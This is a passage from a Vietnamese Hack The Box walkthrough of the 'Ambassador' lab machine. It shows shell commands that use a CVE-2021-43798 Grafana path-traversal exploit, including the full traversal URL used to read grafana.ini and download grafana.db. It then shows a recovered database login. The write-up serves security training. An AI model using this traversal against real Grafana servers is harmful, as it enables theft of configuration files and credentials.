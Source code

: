 ```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador /CVE-2021-43798]
└─$ python3 exploit.py http://10.10.11.183:3000  /etc/grafana/grafana.ini
```

![Untitled](/images/2023-01-16-hackthebox-medium-ambassador/Untitled3.png)

Thử tiếp với đường dẫn là “/var/lib/grafana/grafana.db”, cái này cần tải tập grafana.db nên dùng câu lệnh có thêm “—output” và thêm tên tập tải, tệp này sẽ lưu trong thư mục đang chạy [exploit.py](http://exploit.py)

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador /CVE-2021-43798]
└─$ python3 exploit.py http://10.10.11.183:3000  /var/lib/grafana/grafana.db --output grafana.db
[+] Trying path http://10.10.11.183:3000/public/plugins/loki/../../../../../../../../../../../../../var/lib/grafana/grafana.db
[+] Done
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador /CVE-2021-43798]
└─$ ls
exploit.py  grafana.db  LICENSE  README.md
```

Sử dụng “DB Browser for SQLite” có sẵn trên Kali Linux để tìm kiếm các thông tin, sử dụng lệnh select để lọc nội dung trong tập “data_source”.

→ thấy được user : grafana/dontStandSoCloseToMe63221!
